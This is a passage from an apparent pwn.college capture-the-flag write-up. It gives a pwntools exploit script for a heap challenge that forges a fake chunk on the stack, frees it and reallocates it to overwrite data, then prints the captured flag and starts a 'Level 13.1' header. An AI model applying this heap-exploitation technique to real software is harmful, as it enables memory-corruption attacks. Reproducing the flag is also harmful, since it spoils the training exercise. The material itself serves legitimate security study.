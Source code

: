 ```python
def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    payload = flat(
        b"A" * 0x30,
        0,
        0x401,
    )

    stack_scanf(payload)
    stack_free()
    # raw_input("DEBUG")
    malloc(0, 0x3F0)

    payload = flat(
        b"A" * (0xB0),
    )
    raw_input("DEBUG")
    scanf(0, payload)

    send_flag("A" * 0x10)

    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`pwn.college{Yz7oh0MVsBoSFEkrl1pl76sH5l0.0VN5MDL5cTNxgzW}`]

# Level 13.1

## Information

- Category: Pwn

## Description
